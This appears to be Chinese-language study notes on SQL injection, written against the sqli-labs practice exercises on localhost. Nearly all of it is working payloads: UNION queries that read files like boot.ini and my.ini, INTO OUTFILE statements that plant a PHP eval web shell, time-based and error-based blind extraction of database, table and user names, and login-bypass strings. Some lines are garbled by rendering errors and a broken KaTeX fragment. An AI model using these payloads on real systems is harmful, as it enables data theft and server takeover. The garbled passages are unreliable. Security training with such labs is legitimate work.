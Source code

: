 -1 union select 1,1,1,load_file(char(99,58,47,98,111,111,116,46,105,110,105)) Explain：“char(99,58,47,98,111,111,116,46,105,110,105)”就是“c:/boot.ini”的 ASCII 代码

-1 union select 1,1,1,load_file(0x633a2f626f6f742e696e69) Explain：“c:/boot.ini”的 16 进制是“0x633a2f626f6f742e696e69” -1 union select 1,1,1,load_file(c:\boot.ini) Explain:路径里的/用 \代替

Select version() into outfile “c:\phpnow\htdocs\test.php”

Select <?php @eval($_post[“mima”])?> into outfile “c:\phpnow\htdocs\test.php”

Select version() Into outfile “c:\phpnow\htdocs\test.php” LINES TERMINATED BY 0x16 进制文 件 解释：通常是用‘\r\n’结尾，此处我们修改为自己想要的任何文件。同时可以用 FIELDS TERMINATED BY

是当前台无法导出数据的时候，我们可以利用下面的语 句： select load_file(‘c:\wamp\bin\mysql\mysql5.6.17\my.ini’)into outfile ‘c:\wamp\www\test.php

实例： http://127.0.0.1/sqllib/Less-7/?id=1’)) or 1=1–+

http://127.0.0.1/sqllib/Less-7/?id=1’))UNION SELECT 1,2,3 into outfile “c:\wamp\www\sqlli b\Less-7\uuu.txt”%23

http://127.0.0.1/sqllib/Less-7/?id=1’))UNION SELECT 1,2,’<?php @eval($_post[“mima”])?>’ i nto outfile “c:\wamp\www\sqllib\Less-7\yijuhua.php”–+

http://127.0.0.1/sqllib/Less-8/?id=1%27and%20If(ascii(substr(database(),1,1))=115,1,sleep(5))–+

http://127.0.0.1/sqllib/Less-8/?id=1’ union Select 1,count(*),concat(0x3a,0x3a,(select user()),0 x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a–+

http://127.0.0.1/sqllib/Less-9/?id=1%27and%20If(ascii(substr(database(),1,1))=115,1,sleep(5))–+

http://127.0.0.1/sqllib/Less-9/?id=1’and If(ascii(substr((select table_name from information_s chema.tables where table_schema=‘security’ limit 0,1),1,1))=101,1,sleep(5))–+

http://127.0.0.1/sqllib/Less-9/?id=1’and If(ascii(substr((select column_name from information _schema.columns where table_name=‘users’ limit 0,1),1,1))=105,1,sleep(5))–+

http://127.0.0.1/sqllib/Less-9/?id=1’and If(ascii(substr((select username from users limit 0,1), 1,1))=68,1,sleep(5))–+

### Post注入

admin’or’1’=‘1#，密码随意。 KaTeX parse error: Expected ‘EOF’, got ‘#’ at position 73: …’admin’or’1’=’1#̲ and password=’passwd’ LIMIT 0,1″;

Username：1admin’union select 1,database()# passwd=1（任意密码）

uname=admin’)and left(database(),1)>‘a’#&passwd=1&submit=Submit

uname=admin”and extractvalue(1,concat(0x7e,(select @@version),0x7e))#&passwd=1&submi t=Submit

uname=admin’and If(ascii(substr(database(),1,1))=115,1,sleep(5))#&passwd=11&submit=Subm it

### 修改useragent:

对 uname 和 passwd 进行了 check_input()函数的处理，所以我们在输入 uname 和 passwd 上 进行注入是不行的 i n s e r t = ” I N S E R T I N T O ‘ s e c u r i t y ‘ . ‘ u a g e n t s ‘ ( ‘ u a g e n t ‘ , ‘ i p a d d r e s s ‘ , ‘ u s e r n a m e ‘ ) V A L U E S ( ′ insert=”INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES (‘ insert=“INSERTINTO‘security‘.‘uagents‘(‘uagent‘,‘ipa​ddress‘,‘username‘)VALUES(′uagent’, ‘IP′,uname)”;

